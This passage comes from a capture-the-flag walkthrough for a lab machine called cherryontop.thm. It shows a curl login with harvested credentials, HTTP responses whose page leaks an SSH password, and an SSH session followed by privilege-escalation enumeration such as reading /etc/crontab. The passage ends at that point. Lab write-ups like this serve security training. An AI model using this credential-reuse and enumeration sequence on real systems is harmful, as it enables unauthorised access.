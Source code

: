 `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' -b $'PHPSESSID=gvmv3lje951sbhsr4ku4ceufdv' --data-binary $'username=puppet&password=master&submit=' $'http://nano.cherryontop.thm/login.php'`

```bash
HTTP/1.1 302 Found
Date: Fri, 11 Oct 2024 13:58:40 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: command.php
Content-Length: 333
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 13:58:40 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6226
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE

<h5 class="card-title">Jex</h5>
<p>Oh I'm SoOoOoOO SCAARED! What a loser, can't even use a greenscreen correctly!</p>
<p>I know he tried to get ahold of my ssh password <i>ChadCherrysFutureWife</i> through social engineering but I outsmarted him and his hacker friends once again by hanging up the phone!</p>
<p>Good thing they won't ever figure it out!
<i>Debt owed: <b>Why would he borrow money from us??</b></i>

[REDACTED] - MORE

    
</body>
</html>
```

> **SSH Connection with Given Credentials & Internal Logic Phase**
> 

`ssh -o MACs=hmac-sha2-256 notsus@cherryontop.thm -p 22`

```bash
notsus@cherryontop.thm's password: 

$ whoami
notsus
$ id
uid=1004(notsus) gid=1004(notsus) groups=1004(notsus)
$ pwd
/home/.notsus

$ uname -a
Linux nanocherryctf 5.15.0-102-generic #112-Ubuntu SMP Tue Mar 5 16:50:32 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
$ dpkg --version
Debian 'dpkg' package management program version 1.21.1 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

$ cat /etc/crontab
# /etc/crontab: system-wide crontab
```
